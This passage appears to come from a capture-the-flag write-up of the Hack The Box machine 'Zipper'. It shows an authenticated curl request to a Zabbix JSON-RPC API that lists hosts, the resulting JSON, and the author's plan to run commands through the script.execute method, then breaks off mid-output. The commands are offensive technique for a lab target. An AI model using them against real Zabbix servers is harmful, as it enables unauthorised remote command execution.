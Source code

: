 Now, I have to use the `script.execute` method to run it. This requires a `scriptid` and `hostid` to specify where to run it. I took another look at the hosts available:

```
$ curl --silent --request POST --url 'http://zipper.htb/zabbix/api_jsonrpc.php' --header 'Content-Type: application/json-rpc' --data '{"jsonrpc":"2.0","method":"host.get","params":{"output":"extend"},"auth":"06240f1bd5926c26e2d5ef2e8ffe214e","id":1}' | jq .
{
  "jsonrpc": "2.0",                                                                         
  "result": [                                                                               
    {                                                                                       
      "hostid": "10105",                                                                    
      "proxy_hostid": "0",                                                                  
      "host": "Zabbix",                                                                     
      "status": "0",                                                                        
      "disable_until": "0",                                                                 
      "error": "",                                                                          
      "available": "0",                                                                     
      "errors_from": "0",                                                                   
      "lastaccess": "0",                                                                    
      "ipmi_authtype": "-1",                                                                
      "ipmi_privilege": "2",                                                                
      "ipmi_username": "",                                                                  
      "ipmi_password": "",                                                                  
      "ipmi_disable_until": "0",                                                            
      "ipmi_available": "0",                                                                
      "snmp_disable_until": "0",                                                            
      "snmp_available": "0",                                                                
      "maintenanceid": "0",                                                                 
      "maintenance_status": "0",                                                            
      "maintenance_type": "0",                                                              
      "maintenance_from": "0",                                                              
      "ipmi_errors_from": "0",                                                              
      "snmp_errors_from": "0",                                                              
      "ipmi_error": "",                                                                     
      "snmp_error": "",                                                                     
      "jmx_disable_until": "0",                                                             
      "jmx_available": "0",                                                                 
      "jmx_errors_from": "0",                                                               
      "jmx_error": "",                                                                      
      "name": "Zabbix",                                                                     
      "flags": "0",                                                                         
      "templateid": "0",                                                                    
      "description": "This host - Zabbix Server",                                           
      "tls_connect": "1",                                                                   
      "tls_accept": "1",                                                                    
      "tls_issuer": "",                                                                     
      "tls_subject": "",                                                                    
      "tls_psk_identity": "",                                                               
      "tls_psk": ""                                                                         
    },                                                                                      
    {                                                                                       
      "hostid": "10106",                                                                    
      "proxy_hostid": "0",                                                                  
      "host": "Zipper",                                                                     
      "status": "0",                                                                        
      "disable_until": "0",                                                                 
      "error": "",                                                                          
      "available": "1",                                                                     
      "errors_from": "0",                                                                   
      "lastaccess": "0",                                                                    
      "ipmi_authtype": "-1",                                                                
      "ipmi_privilege": "2",                                                                
      "ipmi_username": "",                                                                  
```